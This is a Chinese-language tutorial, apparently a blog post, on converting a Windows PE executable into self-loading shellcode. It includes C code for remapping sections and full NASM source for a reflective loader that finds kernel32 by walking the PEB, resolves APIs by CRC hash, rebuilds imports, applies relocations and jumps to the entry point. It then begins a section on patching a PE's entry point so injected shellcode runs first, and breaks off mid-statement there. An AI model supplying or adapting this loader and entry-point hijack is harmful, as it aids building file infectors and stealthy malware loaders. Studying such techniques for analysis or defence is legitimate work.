

我们要做的就是**模拟**这个过程，区别是映射到一个新的文件中。

1. 新建文件，大小为 SizeOfImage
2. 根据每个节的 VirtualAddress 和 RawDataSize，复制节的内容到新的文件
3. 修改每个节的 PointertoRawData，rawDataSize
4. 修改 OptionalHeader 的 FileAlignment

#### 创建新 PE 文件

新建文件，读入 **stub 程序**后，计算新文件大小。

```c
size_t pe2sh(PE_file* ppeFile, char **shellcode, char* savePath) {

	DWORD imageSize = ppeFile->pimageNTHeaders->OptionalHeader.SizeOfImage;
	
	// read stub program
	BYTE* stub;
	DWORD stubSize = readStubFile(&stub);

	// new file
	// DWORD stubSizeAligned = align(stubSize, ppeFile->pimageNTHeaders->OptionalHeader.SectionAlignment);
	DWORD newfileSize = imageSize + stubSize;
	BYTE* newfile = (BYTE*)malloc(newfileSize);
	if (newfile == NULL) {
		perror("malloc");
		exit(EXIT_FAILURE);
	}
	memset(newfile, 0, newfileSize);
```

#### 将旧 PE 文件中每一个节装载到新 PE 文件中

复制每个节到对应的位置，复制 PE 头部信息。

```c
	// copy sections to their virtual address
	WORD sectionNumbers = ppeFile->pimageNTHeaders->FileHeader.NumberOfSections;
	for (size_t i = 0; i < sectionNumbers; i++) {
		PIMAGE_SECTION_HEADER phdr = ppeFile->ppimageSectionHeader[i];
		if (phdr->SizeOfRawData == 0 || phdr->Misc.VirtualSize == 0) continue;
		LPVOID destAddr = phdr->VirtualAddress + (BYTE*)newfile;
		LPVOID rawAddr = phdr->PointerToRawData + (BYTE*)ppeFile->innerBuffer;
		DWORD copySize = phdr->SizeOfRawData;
		memcpy(destAddr, rawAddr, copySize);
	}

	// copy headers
	memcpy(newfile, ppeFile->innerBuffer, ppeFile->pimageNTHeaders->OptionalHeader.SizeOfHeaders);
```

修改新的 **PE 文件**的节头信息。

```c
	// parse new PE file
	PE_file newPEFile;
	newPEFile.innerBuffer = newfile;
	newPEFile.fileSize = newfileSize;
	_PEParse(&newPEFile);

	// overwrite headers
	// file alignment
	newPEFile.pimageNTHeaders->OptionalHeader.FileAlignment =
		newPEFile.pimageNTHeaders->OptionalHeader.SectionAlignment;
	// update section headers
	for (size_t i = 0; i < sectionNumbers; i++) {
		PIMAGE_SECTION_HEADER phdr = newPEFile.ppimageSectionHeader[i];
		phdr->Misc.VirtualSize = align(phdr->Misc.VirtualSize,
			newPEFile.pimageNTHeaders->OptionalHeader.SectionAlignment);
		phdr->PointerToRawData = phdr->VirtualAddress;
		phdr->SizeOfRawData = phdr->Misc.VirtualSize;
	}
	// copy stub program
	memcpy(newfile + imageSize, stub, stubSize);
	// overwrite DOS header
	overwriteHeader(newfile, imageSize);
	// save file
	PESave(&newPEFile, savePath);
	// free buffer
	free(stub);
	*shellcode = newfile;
	return newfileSize;
}
```

#### 手动引入 DLL

**手动引入 DLL** 的方法：

1. 找到 **kernel32.dll** 的地址
2. 找到 **GetProcAddress** 和 **LoadLibraryA** 的地址
3. 遍历 **Import Directory Table**
3. 使用 **LoadLibraryA** 加载所需的 **DLL** 文件
4. 遍历引入函数 **Import Name Table** 和 **Import Address Table**
4. 使用 **GetProcAddress** 得到引入函数的地址，填写 **Import Address Table**

有了上面手动编写 **shellcode** 的基础，可以试着理解下面的代码。唯一不同的地方是寻找函数对比的是函数名字的 **CRC 校验值**，而不是直接对比**函数名字**。这种方法的优点是需要对比的内容大小**固定为 4 字节**，缺点是较为麻烦。如果对于 **CRC 算法**不清楚，建议学习一下 CRC 原理和实现。代码的注释写得非常详细，在这里就不多重复叙述整个过程。

```asm
bits 32
%include "hldr32.inc"

;-----------------------------------------------------------------------------
;recover kernel32 image base
;-----------------------------------------------------------------------------

hldr_begin:
        pushad                                  ;must save ebx/edi/esi/ebp
        ; push eax, ecx, edx, ebx, original esp, ebp, esi, edi
        push    tebProcessEnvironmentBlock      ; 0x30
        pop     eax                             ; eax = 0x30
        fs mov  eax, dword [eax]                ; eax = address of PEB
        mov     eax, dword [eax + pebLdr]       ; eax = address of PEB_LDR_DATA
        mov     esi, dword [eax + ldrInLoadOrderModuleList]     ; eax = first entry of ldrInLoadOrderModuleList
        lodsd                                   ; eax = second entry, ntdll.dll
        xchg    eax, esi                        
        lodsd                                   ; eax = third entry, kernel32.dll
        mov     ebp, dword [eax + mlDllBase]    ; eax = kernel32.dll base address
        call    parse_exports

;-----------------------------------------------------------------------------
;API CRC table, null terminated
;-----------------------------------------------------------------------------

        dd      0C97C1FFFh               ;GetProcAddress
        dd      03FC1BD8Dh               ;LoadLibraryA
        db      0

;-----------------------------------------------------------------------------
;parse export table
;-----------------------------------------------------------------------------

parse_exports:
        pop     esi                             ; esi = address of API CRC table
        mov     ebx, ebp                        ; ebx = base address of kernel32.dll
        mov     eax, dword [ebp + lfanew]       ; eax = RVA of PE signature
        add     ebx, dword [ebp + eax + IMAGE_DIRECTORY_ENTRY_EXPORT]   ; ebx = address of Export Table
        cdq                                     ; edx = 0, eax > 0

walk_names:
        mov     eax, ebp                        ; eax = base address of kernel32.dll
        mov     edi, ebp                        ; edi = base address of kernel32.dll
        inc     edx                             ; edx++
        add     eax, dword [ebx + _IMAGE_EXPORT_DIRECTORY.edAddressOfNames]     ; eax = address of Name Pointer Table
        add     edi, dword [eax + edx * 4]      ; edi = edx'th function Name
        or      eax, -1                         ; eax = 0xffffffff

crc_outer:
        xor     al, byte [edi]                  ; al = ~byte [edi]
        push    8                               
        pop     ecx                             ; ecx = 8

crc_inner:
        shr     eax, 1                          ; eax >> 1
        jnc     crc_skip                        ; if eax[0] != 1
        xor     eax, 0edb88320h                 ; crc operation

crc_skip:
        loop    crc_inner
        inc     edi
        cmp     byte [edi], cl
        jne     crc_outer
        not     eax
        cmp     dword [esi], eax                ; compare API CRC
        jne     walk_names

;-----------------------------------------------------------------------------
;exports must be sorted alphabetically, otherwise GetProcAddress() would fail
;this allows to push addresses onto the stack, and the order is known
;-----------------------------------------------------------------------------
        ; found GetProcAddress
        ; edx = position of GetProcAddress
        mov     edi, ebp                ; edi = base address of kernel32.dll
        mov     eax, ebp                ; eax = base address of kernel32.dll
        add     edi, dword [ebx + _IMAGE_EXPORT_DIRECTORY.edAddressOfNameOrdinals]      ; edi = address of Ordinal Table
        movzx   edi, word [edi + edx * 2]       ; edi = Orinal Number of GetProcAddress
        add     eax, dword [ebx + _IMAGE_EXPORT_DIRECTORY.edAddressOfFunctions] ; eax = address of Address Table
        mov     eax, dword [eax + edi * 4]      ; eax = RVA of GetProcAddress
        add     eax, ebp                        ; eax = address of GetProcAddress
        push    eax                             ; push address of GetProcAddress/LoadLibraryA
        lodsd
        sub     cl, byte [esi]
        jnz     walk_names

;-----------------------------------------------------------------------------
;save the pointers to the PE structure
;-----------------------------------------------------------------------------

        ; stack looks like:
        ; ImageBase, pushed by header code
        ; ret to header code    4 bytes
        ; pushad registers      0x20 bytes
        ; GetProcAddress        4 bytes
        ; LoadLibraryA          <== esp

        mov     esi, dword [esp + krncrcstk_size + 20h + 4]     ; esi = ImageBase
        mov     ebp, dword [esi + lfanew]       ; ebp = RVA of PE signature
        add     ebp, esi                        ; ebp = address of PE signature

        push    esi
        mov     ebx, esp                        ; ebx = address of ImageBase
        mov     edi, esi                        ; edi = ImageBase

;-----------------------------------------------------------------------------
;import DLL
;-----------------------------------------------------------------------------

        pushad
        mov     cl, IMAGE_DIRECTORY_ENTRY_IMPORT
        mov     ebp, dword [ecx + ebp]          ; ebp = RVA of Import Table
        test    ebp, ebp                        ; check if PE has import table
        je      import_popad                    ; if import table not found, skip loading
        add     ebp, edi                        ; ebp = address of Import Table

import_dll:
        mov     ecx, dword [ebp + _IMAGE_IMPORT_DESCRIPTOR.idName]      ; ecx = RVA of Import DLL Name
        jecxz   import_popad                                            ; jmp if ecx == 0
        add     ecx, dword [ebx]                                        ; ecx = address of Import DLL Name
        push    ecx                                                     ; address of Import DLL Name
        call    dword [ebx + mapstk_size + krncrcstk.kLoadLibraryA]     ; LoadLibraryA
        xchg    ecx, eax
        mov     edi, dword [ebp + _IMAGE_IMPORT_DESCRIPTOR.idFirstThunk]        ; edi = RVA of Import Address Table
        mov     esi, dword [ebp + _IMAGE_IMPORT_DESCRIPTOR.idOriginalFirstThunk]; esi = RVA of Import Name Table
        test    esi, esi                                                        ; if OriginalFirstThunk is NULL... 
        cmove   esi, edi                                                        ; use FirstThunk instead of OriginalFirstThunk
        add     esi, dword [ebx]                                                ; convert RVA to VA
        add     edi, dword [ebx]

import_thunks:
        lodsd                   ; eax = [esi], RVA of function name
        test    eax, eax
        je      import_next     ; reach 0x000000
        btr     eax, 31         
        jc      import_push
        add     eax, dword [ebx]; address of function Name
        inc     eax
        inc     eax

import_push:
        push    ecx             ; address of Import DLL Name, save ecx
        push    eax             ; address of function name
        push    ecx             ; address of Import DLL Name
        call    dword [ebx + mapstk_size + krncrcstk.kGetProcAddress]
        pop     ecx             ; restore ecx
        stosd                   ; store address of function to [edi]
        jmp     import_thunks

import_next:
        add     ebp, _IMAGE_IMPORT_DESCRIPTOR_size      ; turn to import next DLL functions
        jmp     import_dll

import_popad:
        popad
```

#### 手动重定位

不同[重定位类型](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#base-relocation-types)的**重定位方式**有很大不同，方便起见，我们只实现基础的 **IMAGE_REL_BASED_HIGHLOW** 和 **IMAGE_REL_BASED_ABSOLUTE**。

**IMAGE_REL_BASED_ABSOLUTE** 类型是用来填充对齐重定位块的，可以直接忽略。**IMAGE_REL_BASED_HIGHLOW** 的类型描述如下，摘自微软文档。

> The base relocation applies all 32 bits of the difference to the 32-bit field at offset.

这种类型的重定位方式储存的是与 32 位地址的**偏移量**。因此只需要重新计算**偏移量**即可，旧的偏移量根据旧的 **ImageBase** 计算得到，新偏移量 = 旧偏移量 - 旧 **ImageBase** + 新 **ImageBase**。

使用汇编代码实现，代码的注释比较详细：

```asm
;-----------------------------------------------------------------------------
;apply relocations
;-----------------------------------------------------------------------------

        mov     cl, IMAGE_DIRECTORY_ENTRY_RELOCS
        lea     edx, dword [ebp + ecx]          ; relocation entry in data directory
        add     edi, dword [edx]                ; address of relocation block table
        xor     ecx, ecx

reloc_block:
        pushad
        mov     ecx, dword [edi + IMAGE_BASE_RELOCATION.reSizeOfBlock]  ; ecx = size of block
        sub     ecx, IMAGE_BASE_RELOCATION_size                         ; ecx = size of block - 8(meta info size)
        cdq                                                             ; edx = 0, because eax = 0

reloc_addr:
        movzx   eax, word [edi + edx + IMAGE_BASE_RELOCATION_size]      ; eax = firt reloc entry (16bits: 4 bits type, 12 bits offset)
        push    eax                                                     ; save reloc entry
        and     ah, 0f0h                                                ; get type of reloc entry
        cmp     ah, IMAGE_REL_BASED_HIGHLOW << 4                        ; if reloc type == HIGHLOW
        pop     eax                                                     ; restore reloc entry
        jne     reloc_abs                                               ; another type not HIGHLOW
        and     ah, 0fh                                                 ; get offset
        add     eax, dword [edi + IMAGE_BASE_RELOCATION.rePageRVA]      ; eax = RVA of reloc address
        add     eax, dword [ebx]                                        ; eax = address of reloc address
        mov     esi, dword [eax]                                        ; esi = old reloc address
        sub     esi, dword [ebp + _IMAGE_NT_HEADERS.nthOptionalHeader + _IMAGE_OPTIONAL_HEADER.ohImageBasex]
        add     esi, dword [ebx]                                        ; new reloc address = old reloc address - old ImageBase + new ImageBase
        mov     dword [eax], esi                                        ; change reloc address
        xor     eax, eax                                                ; eax = 0

reloc_abs:
        test    eax, eax                                                ; check for IMAGE_REL_BASED_ABSOLUTE
        jne     hldr_exit                                               ; not supported relocation type
        inc     edx                                                     ; counter += 2
        inc     edx
        cmp     ecx, edx                                                ; reloc entry left
        jg     reloc_addr
        popad                                                           ; relocated a block
        add     ecx, dword [edi + IMAGE_BASE_RELOCATION.reSizeOfBlock]  ; ecx = current reloc block size
        add     edi, dword [edi + IMAGE_BASE_RELOCATION.reSizeOfBlock]  ; edi = next reloc position
        cmp     dword [edx + 4], ecx                                    ; if end of reloc block is reached
        jg     reloc_block
```

#### 跳转到 EntryPoint

```asm
        xor     ecx, ecx
        mov     eax, dword [ebp + _IMAGE_NT_HEADERS.nthOptionalHeader + _IMAGE_OPTIONAL_HEADER.ohAddressOfEntryPoint]
        add     eax, dword [ebx]
        call    eax
```

#### PE 执行后的退出代码

```asm
hldr_exit:
        lea     esp, dword [ebx + mapstk_size + krncrcstk_size]
        popad
        ret     4 
hldr_end:
```

最终的 **stub 程序**代码：

**hldr32.asm**

```asm
bits 32
%include "hldr32.inc"

;-----------------------------------------------------------------------------
;recover kernel32 image base
;-----------------------------------------------------------------------------

hldr_begin:
        pushad                                  ;must save ebx/edi/esi/ebp
        ; push eax, ecx, edx, ebx, original esp, ebp, esi, edi
        push    tebProcessEnvironmentBlock      ; 0x30
        pop     eax                             ; eax = 0x30
        fs mov  eax, dword [eax]                ; eax = address of PEB
        mov     eax, dword [eax + pebLdr]       ; eax = address of PEB_LDR_DATA
        mov     esi, dword [eax + ldrInLoadOrderModuleList]     ; eax = first entry of ldrInLoadOrderModuleList
        lodsd                                   ; eax = second entry, ntdll.dll
        xchg    eax, esi                        
        lodsd                                   ; eax = third entry, kernel32.dll
        mov     ebp, dword [eax + mlDllBase]    ; eax = kernel32.dll base address
        call    parse_exports

;-----------------------------------------------------------------------------
;API CRC table, null terminated
;-----------------------------------------------------------------------------

        dd      0C97C1FFFh               ;GetProcAddress
        dd      03FC1BD8Dh               ;LoadLibraryA
        db      0

;-----------------------------------------------------------------------------
;parse export table
;-----------------------------------------------------------------------------

parse_exports:
        pop     esi                             ; esi = address of API CRC table
        mov     ebx, ebp                        ; ebx = base address of kernel32.dll
        mov     eax, dword [ebp + lfanew]       ; eax = RVA of PE signature
        add     ebx, dword [ebp + eax + IMAGE_DIRECTORY_ENTRY_EXPORT]   ; ebx = address of Export Table
        cdq                                     ; edx = 0, eax > 0

walk_names:
        mov     eax, ebp                        ; eax = base address of kernel32.dll
        mov     edi, ebp                        ; edi = base address of kernel32.dll
        inc     edx                             ; edx++
        add     eax, dword [ebx + _IMAGE_EXPORT_DIRECTORY.edAddressOfNames]     ; eax = address of Name Pointer Table
        add     edi, dword [eax + edx * 4]      ; edi = edx'th function Name
        or      eax, -1                         ; eax = 0xffffffff

crc_outer:
        xor     al, byte [edi]                  ; al = ~byte [edi]
        push    8                               
        pop     ecx                             ; ecx = 8

crc_inner:
        shr     eax, 1                          ; eax >> 1
        jnc     crc_skip                        ; if eax[0] != 1
        xor     eax, 0edb88320h                 ; crc operation

crc_skip:
        loop    crc_inner
        inc     edi
        cmp     byte [edi], cl
        jne     crc_outer
        not     eax
        cmp     dword [esi], eax                ; compare API CRC
        jne     walk_names

;-----------------------------------------------------------------------------
;exports must be sorted alphabetically, otherwise GetProcAddress() would fail
;this allows to push addresses onto the stack, and the order is known
;-----------------------------------------------------------------------------
        ; found GetProcAddress
        ; edx = position of GetProcAddress
        mov     edi, ebp                ; edi = base address of kernel32.dll
        mov     eax, ebp                ; eax = base address of kernel32.dll
        add     edi, dword [ebx + _IMAGE_EXPORT_DIRECTORY.edAddressOfNameOrdinals]      ; edi = address of Ordinal Table
        movzx   edi, word [edi + edx * 2]       ; edi = Orinal Number of GetProcAddress
        add     eax, dword [ebx + _IMAGE_EXPORT_DIRECTORY.edAddressOfFunctions] ; eax = address of Address Table
        mov     eax, dword [eax + edi * 4]      ; eax = RVA of GetProcAddress
        add     eax, ebp                        ; eax = address of GetProcAddress
        push    eax                             ; push address of GetProcAddress/LoadLibraryA
        lodsd
        sub     cl, byte [esi]
        jnz     walk_names

;-----------------------------------------------------------------------------
;save the pointers to the PE structure
;-----------------------------------------------------------------------------

        ; stack looks like:
        ; ImageBase, pushed by header code
        ; ret to header code    4 bytes
        ; pushad registers      0x20 bytes
        ; GetProcAddress        4 bytes
        ; LoadLibraryA          <== esp

        mov     esi, dword [esp + krncrcstk_size + 20h + 4]     ; esi = ImageBase
        mov     ebp, dword [esi + lfanew]       ; ebp = RVA of PE signature
        add     ebp, esi                        ; ebp = address of PE signature

        push    esi
        mov     ebx, esp                        ; ebx = address of ImageBase
        mov     edi, esi                        ; edi = ImageBase

;-----------------------------------------------------------------------------
;import DLL
;-----------------------------------------------------------------------------

        pushad
        mov     cl, IMAGE_DIRECTORY_ENTRY_IMPORT
        mov     ebp, dword [ecx + ebp]          ; ebp = RVA of Import Table
        test    ebp, ebp                        ; check if PE has import table
        je      import_popad                    ; if import table not found, skip loading
        add     ebp, edi                        ; ebp = address of Import Table

import_dll:
        mov     ecx, dword [ebp + _IMAGE_IMPORT_DESCRIPTOR.idName]      ; ecx = RVA of Import DLL Name
        jecxz   import_popad                                            ; jmp if ecx == 0
        add     ecx, dword [ebx]                                        ; ecx = address of Import DLL Name
        push    ecx                                                     ; address of Import DLL Name
        call    dword [ebx + mapstk_size + krncrcstk.kLoadLibraryA]     ; LoadLibraryA
        xchg    ecx, eax
        mov     edi, dword [ebp + _IMAGE_IMPORT_DESCRIPTOR.idFirstThunk]        ; edi = RVA of Import Address Table
        mov     esi, dword [ebp + _IMAGE_IMPORT_DESCRIPTOR.idOriginalFirstThunk]; esi = RVA of Import Name Table
        test    esi, esi                                                        ; if OriginalFirstThunk is NULL... 
        cmove   esi, edi                                                        ; use FirstThunk instead of OriginalFirstThunk
        add     esi, dword [ebx]                                                ; convert RVA to VA
        add     edi, dword [ebx]

import_thunks:
        lodsd                   ; eax = [esi], RVA of function name
        test    eax, eax
        je      import_next     ; reach 0x000000
        btr     eax, 31         
        jc      import_push
        add     eax, dword [ebx]; address of function Name
        inc     eax
        inc     eax

import_push:
        push    ecx             ; address of Import DLL Name, save ecx
        push    eax             ; address of function name
        push    ecx             ; address of Import DLL Name
        call    dword [ebx + mapstk_size + krncrcstk.kGetProcAddress]
        pop     ecx             ; restore ecx
        stosd                   ; store address of function to [edi]
        jmp     import_thunks

import_next:
        add     ebp, _IMAGE_IMPORT_DESCRIPTOR_size      ; turn to import next DLL functions
        jmp     import_dll

import_popad:
        popad

;-----------------------------------------------------------------------------
;apply relocations
;-----------------------------------------------------------------------------

        mov     cl, IMAGE_DIRECTORY_ENTRY_RELOCS
        lea     edx, dword [ebp + ecx]          ; relocation entry in data directory
        add     edi, dword [edx]                ; address of relocation block table
        xor     ecx, ecx

reloc_block:
        pushad
        mov     ecx, dword [edi + IMAGE_BASE_RELOCATION.reSizeOfBlock]  ; ecx = size of block
        sub     ecx, IMAGE_BASE_RELOCATION_size                         ; ecx = size of block - 8(meta info size)
        cdq                                                             ; edx = 0, because eax = 0

reloc_addr:
        movzx   eax, word [edi + edx + IMAGE_BASE_RELOCATION_size]      ; eax = firt reloc entry (16bits: 4 bits type, 12 bits offset)
        push    eax                                                     ; save reloc entry
        and     ah, 0f0h                                                ; get type of reloc entry
        cmp     ah, IMAGE_REL_BASED_HIGHLOW << 4                        ; if reloc type == HIGHLOW
        pop     eax                                                     ; restore reloc entry
        jne     reloc_abs                                               ; another type not HIGHLOW
        and     ah, 0fh                                                 ; get offset
        add     eax, dword [edi + IMAGE_BASE_RELOCATION.rePageRVA]      ; eax = RVA of reloc address
        add     eax, dword [ebx]                                        ; eax = address of reloc address
        mov     esi, dword [eax]                                        ; esi = old reloc address
        sub     esi, dword [ebp + _IMAGE_NT_HEADERS.nthOptionalHeader + _IMAGE_OPTIONAL_HEADER.ohImageBasex]
        add     esi, dword [ebx]                                        ; new reloc address = old reloc address - old ImageBase + new ImageBase
        mov     dword [eax], esi                                        ; change reloc address
        xor     eax, eax                                                ; eax = 0

reloc_abs:
        test    eax, eax                                                ; check for IMAGE_REL_BASED_ABSOLUTE
        jne     hldr_exit                                               ; not supported relocation type
        inc     edx                                                     ; counter += 2
        inc     edx
        cmp     ecx, edx                                                ; reloc entry left
        jg     reloc_addr
        popad                                                           ; relocated a block
        add     ecx, dword [edi + IMAGE_BASE_RELOCATION.reSizeOfBlock]  ; ecx = current reloc block size
        add     edi, dword [edi + IMAGE_BASE_RELOCATION.reSizeOfBlock]  ; edi = next reloc position
        cmp     dword [edx + 4], ecx                                    ; if end of reloc block is reached
        jg     reloc_block

;-----------------------------------------------------------------------------
;call entrypoint
;
;to a DLL main:
;push 0
;push 1
;push dword [ebx]
;mov  eax, dword [ebp + _IMAGE_NT_HEADERS.nthOptionalHeader + _IMAGE_OPTIONAL_HEADER.ohAddressOfEntryPoint]
;add  eax, dword [ebx]
;call eax
;
;to a RVA (an exported function's RVA, for example):
;
;mov  eax, 0xdeadf00d ; replace with addr
;add  eax, dword [ebx]
;call eax
;-----------------------------------------------------------------------------

        xor     ecx, ecx
        mov     eax, dword [ebp + _IMAGE_NT_HEADERS.nthOptionalHeader + _IMAGE_OPTIONAL_HEADER.ohAddressOfEntryPoint]
        add     eax, dword [ebx]
        call    eax

;-----------------------------------------------------------------------------
;if fails or returns from host, restore stack and registers and return (somewhere)
;-----------------------------------------------------------------------------

hldr_exit:
        lea     esp, dword [ebx + mapstk_size + krncrcstk_size]
        popad
        ret     4 
hldr_end:
```

**hldr32.inc**

```asm
CREATE_ALWAYS                   equ     2
FILE_WRITE_DATA                 equ     2

PAGE_EXECUTE_READWRITE          equ     40h

MEM_COMMIT                      equ     1000h
MEM_RESERVE                     equ     2000h

tebProcessEnvironmentBlock      equ     30h
pebLdr                          equ     0ch
ldrInLoadOrderModuleList        equ     0ch
mlDllBase                       equ     18h

lfanew                          equ     3ch

IMAGE_DIRECTORY_ENTRY_EXPORT    equ     78h
IMAGE_DIRECTORY_ENTRY_IMPORT    equ     80h
IMAGE_DIRECTORY_ENTRY_RELOCS    equ     0a0h

IMAGE_REL_BASED_HIGHLOW         equ     3

struc    mapstk
.hImage: resd 1
endstruc

struc   krncrcstk
.kLoadLibraryA:          resd 1
.kGetProcAddress:        resd 1
endstruc

struc _IMAGE_FILE_HEADER
.fhMachine:              resw 1
.fhNumberOfSections:     resw 1
.fhTimeDateStamp:        resd 1
.fhPointerToSymbolTable: resd 1
.fhNumberOfSymbols:      resd 1
.fhSizeOfOptionalHeader: resw 1
.fhCharacteristics:      resw 1
endstruc

struc _IMAGE_OPTIONAL_HEADER
.ohMagic:                       resw 1
.ohMajorLinkerVersion:          resb 1
.ohMinorLinkerVersion:          resb 1
.ohSizeOfCode:                  resd 1
.ohSizeOfInitializedData:       resd 1
.ohSizeOfUninitializedData:     resd 1
.ohAddressOfEntryPoint:         resd 1
.ohBaseOfCode:                  resd 1
.ohBaseOfData:                  resd 1
.ohImageBasex:                  resd 1
.ohSectionAlignment:            resd 1
.ohFileAlignment:               resd 1
.ohMajorOperatingSystemVersion: resw 1
.ohMinorOperatingSystemVersion: resw 1
.ohMajorImageVersion:           resw 1
.ohMinorImageVersion:           resw 1
.ohMajorSubsystemVersion:       resw 1
.ohMinorSubsystemVersion:       resw 1
.ohWin32VersionValue:           resd 1
.ohSizeOfImage:                 resd 1
.ohSizeOfHeaders:               resd 1
endstruc

struc  _IMAGE_NT_HEADERS
.nthSignature:      resd 1
.nthFileHeader:     resb _IMAGE_FILE_HEADER_size
.nthOptionalHeader: resb _IMAGE_OPTIONAL_HEADER_size
endstruc

struc _IMAGE_SECTION_HEADER
.shName:                 resb 8
.shVirtualSize:          resd 1
.shVirtualAddress:       resd 1
.shSizeOfRawData:        resd 1
.shPointerToRawData:     resd 1
.shPointerToRelocations: resd 1
.shPointerToLinenumbers: resd 1
.shNumberOfRelocations:  resw 1
.shNumberOfLinenumbers:  resw 1
.shCharacteristics:      resd 1
endstruc

struc _IMAGE_IMPORT_DESCRIPTOR
.idOriginalFirstThunk: resd 1
.idTimeDateStamp:      resd 1
.idForwarderChain:     resd 1
.idName:               resd 1
.idFirstThunk:         resd 1
endstruc

struc IMAGE_BASE_RELOCATION
.rePageRVA:     resd 1
.reSizeOfBlock: resd 1
endstruc

struc _IMAGE_EXPORT_DIRECTORY
.edCharacteristics:       resd 1
.edTimeDateStamp:         resd 1
.edMajorVersion:          resw 1
.edMinorVersion:          resw 1
.edName:                  resd 1
.edBase:                  resd 1
.edNumberOfFunctions:     resd 1
.edNumberOfNames:         resd 1
.edAddressOfFunctions:    resd 1
.edAddressOfNames:        resd 1
.edAddressOfNameOrdinals: resd 1
endstruc                                   
```

#### PE DOS Header 的修改

**PE DOS Header** 相当于 **shellcode** 最前面的一部分代码。**PE DOS Header** 中最重要的就是前两个字节 ，**DOS Signature**，并且需要保证这一部分代码长度小于 **0x3c**，因为 **0x3c** 位置存放着 **PE Signature** 的 **RVA**。

**PE DOS Header** 前两个字节为 0x4d, 0x5a。可以通过 [intel x86 opcode]([coder32 edition | X86 Opcode and Instruction Reference 1.12 (x86asm.net)](http://ref.x86asm.net/coder32.html)) 确定机器码对应的汇编指令。下面这张图片也有助于理解 opcode 的分布。



```c
void overwriteHeader(BYTE* file, DWORD addr) {
	BYTE redir_code[] = "\x4D" //dec ebp
		"\x5A" //pop edx
		"\x45" //inc ebp
		"\x52" //push edx
		"\xE8\x00\x00\x00\x00" //call <next_line>
		"\x5B" // pop ebx
		"\x48\x83\xEB\x09" // sub ebx,9
		"\x53" // push ebx (Image Base)
		"\x48\x81\xC3" // add ebx,
		"\x59\x04\x00\x00" // value
		"\xFF\xD3" // call ebx
		"\xc3"; // ret
	size_t offset = sizeof(redir_code) - 8;

	memcpy(redir_code + offset, &addr, sizeof(DWORD));
	memcpy(file, redir_code, sizeof(redir_code));
}
```

## 修改 PE 执行流程

### 构建 payload

实现 shellcode 之后，下一步实现修改 PE 执行流程，使得先执行 shellcode，再返回原来的 EntryPoint 执行的效果。

```c
printf("building payload...\n");
	BYTE prefix[] = {
		0xe8, 0x06, 0x00, 0x00, 0x00,	// call shellcode
		0xe8, 0x00, 0x00, 0x00, 0x00,	// call Entry Point
		0xc3							// ret
	};
	size_t shellcodeSize = strlen(sc);
	BYTE* payload = (BYTE*)malloc(sizeof prefix + shellcodeSize);
	if (payload == NULL) {
		perror("malloc");
		exit(EXIT_FAILURE);
	}
	memcpy(payload, prefix, sizeof prefix);
	memcpy(payload + sizeof prefix, sc, shellcodeSize);
	DWORD oldEntryPoint = pefile.pimageNTHeaders->OptionalHeader.AddressOfEntryPoint;
	DWORD newEntryPoint =
		pefile.ppimageSectionHeader[pefile.pimageNTHeaders->FileHeader.NumberOfSections - 1]->VirtualAddress +
